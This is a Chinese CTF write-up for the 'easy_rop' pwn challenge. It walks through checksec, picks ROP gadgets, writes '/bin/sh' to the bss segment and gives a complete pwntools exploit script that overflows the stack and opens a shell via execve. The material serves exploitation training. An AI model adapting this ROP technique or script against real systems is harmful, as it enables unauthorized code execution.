
PWN 0x01. easy_rop 先checksec分析下程序的保护机制，可以看到开启了NX保护，即栈不可执行，故需要跳转到对应的libc去执行。Ctrl + c 终端输入来到调试界面，并在0x43f2f0处打上断点。execve("/bin/sh", NULL, NULL)对应的汇编指令如下：
1 2 3 4 5 mov eax, 0xb mov ebx, ["/bin/sh"] mov ecx, 0 mov edx, 0 int 0x80
由于该程序是64bit，故构造ROP链需要涉及rax、rbx、rcx、rdx寄存器，从上述gadget中找出以下合适的指令：
1 2 0x0000000000478446 : pop rax ; pop rdx ; pop rbx ; ret 0x0000000000488a95 : int 0x80
由于该指令没有涉及rcx寄存器，故需要通过其他指令给其赋值，但找了许久，只有以下指令勉强合适，以及该指令涉及到的其他指令：
1 2 3 0x000000000043b270 : mov rcx, qword ptr [rsi] ; mov byte ptr [rdi + 8], dh ; mov qword ptr [rdi], rcx ; ret 0x00000000004015f6 : pop rdi ; ret 0x0000000000401717 : pop rsi ; ret
只要控制好各个寄存器的值就能通过系统中断调用执行execve函数，目前还差/bin/sh字符（二进制文件也没有），于是需要自己往bss写入对应字符，最后再调用命令执行函数即可，涉及到的指令和内存地址如下：
1 2 3 4 5 6 7 8 9 10 11 zero_addr = 0x4b4680 bss_addr = 0x6cbb60 syscall_ret = 0x43f2ee pop_rdx_rsi_ret = 0x442779
现在的思路是通过栈溢出调用syscall，使其往bss段写入/bin/sh字符，再分别往rax、rbx、rcx、rdx寄存器写入对应值，最后int 80即可，编写EXP如下；
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 from pwn import *import timecontext(os='linux' , arch='amd64' ) p = process('./5f55ce3d7d306' ) elf = ELF('./5f55ce3d7d306' ) zero_addr = 0x4B4680 bss_addr = 0x6cbb60 pop_rdi_ret = 0x4015f6 pop_rsi_ret = 0x401717 pop_rdx_rsi_ret = 0x442779 pop_rax_rdx_rbx_ret = 0x478446 mov_rcx_rsi_ret = 0x43b270 syscall_ret = 0x43F2EE int_80 = 0x488a95 payload = b'a' * 40 + p64(pop_rdx_rsi_ret) + p64(0x10 ) + p64(bss_addr) + p64(pop_rdi_ret) + p64(0 ) + p64(syscall_ret) + p64(pop_rax_rdx_rbx_ret) + p64(0xb ) + p64(0 ) + p64(bss_addr) + p64(pop_rdi_ret) + p64(bss_addr + 0x10 ) + p64(pop_rsi_ret) + p64(zero_addr) + p64(mov_rcx_rsi_ret) + p64(int_80) p.sendline(payload) time.sleep(1 ) p.sendline(b'/bin/sh\x00' ) p.interactive()
运行exp即可拿到服务器shell